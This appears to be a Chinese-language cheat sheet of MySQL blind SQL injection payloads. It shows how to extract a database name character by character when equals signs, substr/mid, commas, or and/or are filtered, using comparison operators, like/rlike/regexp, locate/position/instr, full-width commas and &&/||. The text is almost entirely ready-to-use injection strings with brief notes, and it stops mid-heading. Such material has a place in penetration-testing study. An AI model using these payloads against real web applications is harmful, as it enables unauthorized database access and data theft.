 前言：




等号被过滤
1.采用，>,<,<>
Payload1(采用>)
and ascii(substr(database(),1,1))>xxx


可以得到第一个字母为t

Payload2(采用<)
and ascii(substr(database(),1,1))<xxx


可以判断为等于116对应的ascii为t

Payload3(采用<>)
and ascii(substr(database(),1,1))<>115
注：<>为不等于的意思相当于!=












2.采用like，rlike语句
Payload1(like)
and database() like 'x%'

Payload2(rlike)
and database() rlike '^te'




and database() rlike 'te.*'


注：rlike的内容为正则，正则写法与java一致，需要转义，例如’\n’需要使用’\\n’







3.采用regexp,in,between

Payload1(regexp)
and database() regexp 'test.*'

and database() regexp '^test'
Regexp函数使用方法与rlike类似，都是正则匹配	



Payload2(in)
and database() in ('test')





and instr(database(),'t')in(1)


Payload3(BETWEEN)

and substr(database(),1,1) BETWEEN 't' and 't'


Substr,mid等被过滤
采用locate,position,instr
Payload1(locate)
and LOCATE('e',database())in('2')

and LOCATE('t',database(),4)in('4')

注：
locate(str1,str2)
返回str1字符串在str2里第一次出现的位置，没有返回0
Locate(str1,str2,pos)
返回str1字符串在str2里pos（起始位置）出现的位置，没有返回0
pos必须大于第一次出现的位置，才能显示第二次出现的位置









Payload2(position)
and position('t' in database())=1
用法与locate类似，返回str1字符串在str2出现的位置，没有返回0



Payload3(instr)
And instr(database(),’t’)=1






逗号被过滤
采用%EF%BC%8C
Payload
and substr(database()%EF%BC%8C1%EF%BC%8C)='1' 


采用from xx for xx,  from(x)
Payload1
and substr(database()from 2 for 1)='e'


Payload2
And substr('abcde' from 1)=’test’





And/or被过滤
使用&&或者||
Payload
&& substr(database(),1,1)=’t’

|| substr(database(),1,1)=’t’

注：在mysql中 and与or 是可以用 &&和||相互代替的
如： and 1=1 ->&& 1=1  or 1=1 ->||1=1
不过在oracle中，||为拼接字符，如：’a’||’b’->’ab’，相当于mysql中的concat（）


采用
